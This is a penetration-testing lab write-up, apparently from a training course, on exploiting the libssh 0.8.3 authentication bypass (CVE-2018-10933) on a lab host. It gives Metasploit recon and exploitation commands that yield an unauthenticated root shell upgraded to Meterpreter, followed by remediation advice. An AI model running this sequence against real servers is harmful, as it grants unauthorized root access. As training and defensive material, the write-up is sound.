










# Vulnerable SSH Server

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.111.234.3) — Linux, libssh 0.8.3<br>
**Objective:** Exploit the server and get a shell.

## 1. Executive Summary

The target's SSH service uses **libssh 0.8.3**, vulnerable to the **authentication bypass**
(CVE-2018-10933) — a client can skip authentication entirely. Metasploit's
`libssh_auth_bypass` module exploits it for a **root** command shell without any credentials,
which we upgrade to Meterpreter.

## 2. Recon

```bash
ping -c 4 demo.ine.local
db_nmap -sV 192.111.234.3
services
```







Port 22 runs **libssh 0.8.3**.



## 3. Exploitation (libssh auth bypass)

```bash
search libssh_auth_bypass
use auxiliary/scanner/ssh/libssh_auth_bypass
set RHOSTS 192.111.234.3
set SPAWN_PTY true
run
```









## 4. Upgrading to Meterpreter

```bash
sessions -u 1
sessions 2
```



```
sysinfo
getuid     # root
```



## 5. Remediation Recommendations

1. **Upgrade libssh** past 0.8.3 to remediate the authentication bypass (CVE-2018-10933).
2. **Run the SSH service with least privilege** rather than as root.
3. **Restrict SSH exposure** to trusted networks and monitor for anomalous auth-less sessions.
